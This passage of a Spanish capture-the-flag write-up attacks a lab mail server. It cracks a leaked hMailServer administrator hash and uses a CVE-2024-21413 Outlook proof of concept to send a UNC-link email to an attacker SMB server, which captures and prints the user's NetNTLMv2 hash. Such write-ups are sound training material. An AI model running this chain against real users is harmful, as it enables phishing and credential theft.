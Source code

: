```bash
< 
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
* Connection #0 to host mailing.htb left intact
```

Tenemos el hash de la contraseña del usuario administrador, y es débil:

```bash
❯ hashcat -m 0 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

Utilizando esta contraseña para enviarle al correo a maya funciona:

```bash
❯ python CVE-2024-21413.py --server 10.10.11.14 --username 'administrator@mailing.htb' --password 'homenetworkingadministrator' --subject 'Read this, is urgent' --sender 'administrator@mailing.htb' --recipient 'maya@mailing.htb' --url '\\<your-ip>\uwu\uwu'

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de

✅ Email sent successfully.
```

y en una ventana aparte, donde iniciaremos un servidor SMB utilizando las utilidades que vienen con impacket, recibiremos dentro de unos momentos lo siguiente:

```bash
❯ smbserver.py -smb2support uwu .
...
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.14,51821)
[*] AUTHENTICATE_MESSAGE (MAILING\maya,MAILING)
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:ced0068bbcf94df21a475c4b89fc23a9:010100000000000080d88d57c600db01c3db1f616a3e3fb500000000010010004b005500640049004e00580069007900030010004b005500640049004e005800690079000200100043005500560054005600660049004a000400100043005500560054005600660049004a000700080080d88d57c600db0106000400020000000800300030000000000000000000000000200000911a248348edd202454d60353e850b59ed75673e3fd280241f2e61814eae66d40a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100360037000000000000000000
```